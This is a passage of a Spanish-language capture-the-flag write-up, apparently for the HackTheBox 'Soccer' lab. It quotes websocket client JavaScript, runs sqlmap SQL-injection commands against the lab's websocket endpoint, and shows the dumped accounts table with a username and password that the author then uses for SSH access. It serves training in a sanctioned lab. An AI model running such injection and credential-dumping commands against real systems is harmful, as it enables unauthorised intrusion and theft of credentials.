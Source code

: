 ~~~
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
~~~
De esto se pueden sacar dos cosas, una que las peticiones por a "ws://soc-player.soccer.htb:9091" y la segunda que los envia en formato json con un parametro de "id", por lo que probando esto y pasandolo a sqlmap.
~~~bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "123"}' --level 5 --risk 3 --dump
~~~
Se encontro una base de datos llamada "soccer_db" y varias tablas, entre ellas la que es de interes es "accounts" con columnas como "username y password", asi que dumpeando esa base de datos especifica se lograron obtener credenciales posiblemente validas para ssh.
~~~bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "123"}' --level 5 --risk 3 --dump -D soccer_db -T accounts -C username,password
        ___
 <SNIP>
 Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
<SNIP> 
~~~
Por lo que ingresando con dichas credenciales se logra obtener acceso a ssh con el usuario player

---